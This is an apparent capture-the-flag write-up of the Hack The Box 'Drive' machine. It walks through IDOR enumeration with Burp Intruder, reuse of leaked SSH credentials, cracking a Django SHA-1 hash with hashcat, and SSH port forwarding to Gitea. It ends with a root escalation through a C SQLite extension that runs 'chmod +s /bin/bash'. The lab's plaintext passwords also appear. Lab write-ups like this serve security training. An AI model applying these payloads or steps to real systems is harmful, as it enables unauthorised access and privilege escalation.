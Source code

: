 ```yaml
---
title:  "HTB Drive Writeup"
date:   2024-01-21 00:30:00 
categories: HTB Machine
tags: IDOR Binary_exploit
---
```


![](2024-01-21-16-19-34.png)

The Drive website have register and form login . Go to create account and login to see something maybe can we exploit . 

## IDOR Attack

![](2024-01-21-16-25-02.png)

Now look at Dashboard . I found people file on my dashboard and i saw the link files looks likes vulnerable to IDOR so i think we need bruteforce number idor using `Burpsuite Intruder` . Open the burpsuite and turn on `Intercept` on Proxy after that click your link files and will appear the request on your `Intercept` and go to Forward to `Intruder`
&nbsp;




&nbsp;


![](2024-01-21-16-30-57.png)

As you can see here i add `§` at number for find files sensitive data likes password or somethings else using IDOR vulnerability . Usually a big company using uuid to prevent from attacker using IDOR or another vulnerability . This website using normal number id so attacker easily hacked the website by IDOR . So now let's we start the IDOR attack.
Go to `Payloads` and click `Payload type` and choosing `Numbers` payload type look at the below picture
&nbsp;










&nbsp;

![](2024-01-21-16-36-58.png)
&nbsp;

Then there change the settings payload . Like the below


&nbsp;

![](2024-01-21-16-40-58.png)
&nbsp;

Then click `start` to launch attack . `From` thats means which number you want to start it . `To` means which number you want to stop .
&nbsp;



![](2024-01-21-16-44-41.png)

Lolz IDOR not working `401 Unauthorized` . i gonna trying find another way . Until i found this one is `/block` directory i found it on `Upload Files` after that choosing public list then upload . Then go back to Dashboard until you found `Reserve` and click that and you will got it `/block` dir . So recall back number `401 Unauthorized` before this is 79 , 98 , 99 , 101 , 113 . Yes , I got it user pass ssh in id 79

![](2024-01-21-17-11-45.png)

## Shell as Martin 
User:martin 
Password:Xk4@KjyrYv8t194L!

`ssh martin@drive.htb`

![](2024-01-21-17-12-59.png)

Nothing here on user martin i think we need find the password to login another user . I found at `/home` directory have 4 user it is cris , git , martin , tom . Lets enum

![](2024-01-21-17-17-19.png)

Look at this i found backups directory maybe over there have the password . we need forward files to our local machine . You can using scp or python command so i'm choosing python to download the files .
&nbsp;




&nbsp;

![](2024-01-21-17-32-00.png)

I got password from `tomHands` . The hashing used Django(SHA-1) . I tried anything hash identification no one working . Only this website working [Hash Identifier](https://www.onlinehashcrack.com/hash-identification.php)
The password:`sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004`


So now lets crack the password using hashcat
&nbsp;





&nbsp;

![](2024-01-21-17-35-29.png)

hash type is 124 so lets we crack it
&nbsp;




&nbsp;

## Cracking SHA1 Password

`hashcat -m 124 -a 0 --force -O hash.txt /usr/share/wordlists/rockyou.txt`

`sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316`

the password is:`john316` 

![](2024-01-21-17-38-49.png)

Port 3000 usually used gitea but idk is true or not lets we forward port

## Forward Port tunnel
`ssh martin@drive.htb -L 3000:127.0.0.1:3000`

go to your browser and open this page `http://127.0.0.1:3000`


To login using  username `martinCruz` and the password here `Xk4@KjyrYv8t194L!`
i found the username on `Explore` . Success login let's check the martin repo . Look at `db_backup.sh` on `DoodleGrive` repo i found the password . The password using to extract 7z file before this . Let's copy the password and extract files before these.

![](2024-01-21-20-03-58.png)

Password:`H@ckThisP@ssW0rDIfY0uC@n:)`

These so much password you need crack it its take long times . I tried one by one until i found `November` is working and cracked by hashcat . I got password by `tom` 

the password is:`johnmayer7`
&nbsp;


&nbsp;

## Shell as Tom
![](2024-01-21-20-21-07.png)


Success !! login ssh as tom . Now you can see there in directory tom have doodleGrive-cli and colour red and i think that can priv esc to root because this binary have suid see the below
&nbsp;



&nbsp;

## Privilege Escalation

```
tom@drive:~$ find / -type f -perm -04000 -ls 2>/dev/null
   134226    868 -rwSr-x---   1 root     tom        887240 Sep 13 13:36 /home/tom/doodleGrive-cli
     1609     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
     8440     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     3108    464 -rwsr-xr-x   1 root     root         473576 Aug  4 22:02 /usr/lib/openssh/ssh-keysign
     1400     16 -rwsr-xr-x   1 root     root          14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
      878     68 -rwsr-xr-x   1 root     root          68208 Nov 29  2022 /usr/bin/passwd
      874     84 -rwsr-xr-x   1 root     root          85064 Nov 29  2022 /usr/bin/chfn
      875     52 -rwsr-xr-x   1 root     root          53040 Nov 29  2022 /usr/bin/chsh
      514     56 -rwsr-sr-x   1 daemon   daemon        55560 Nov 12  2018 /usr/bin/at
    21390     44 -rwsr-xr-x   1 root     root          44784 Nov 29  2022 /usr/bin/newgrp
     2548    164 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /usr/bin/sudo
     8422     40 -rwsr-xr-x   1 root     root          39144 May 30  2023 /usr/bin/umount
     8016     56 -rwsr-xr-x   1 root     root          55528 May 30  2023 /usr/bin/mount
     4909     68 -rwsr-xr-x   1 root     root          67816 May 30  2023 /usr/bin/su
      877     88 -rwsr-xr-x   1 root     root          88464 Nov 29  2022 /usr/bin/gpasswd
      695     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /usr/bin/fusermount
```




![](2024-01-21-20-30-19.png)

Lolz i found the password from strings command but its take so much times to find it because over there have so long row you need look carefully or you can using [IDA FREEWARE](https://hex-rays.com/ida-free/) this . Now let's login i've got user password


user:`moriarty`
pass:`findMeIfY0uC@nMr.Holmz!`

Creating a.c file and compile it 

```a.c
#include <stdlib.h>
#include <unistd.h>
void sqlite3_a_init() {
setuid(0);
setgid(0);
system("/usr/bin/chmod +s /bin/bash");
}
```

![](2024-01-21-20-43-03.png)

Rooted !!

I hope your enjoy : )

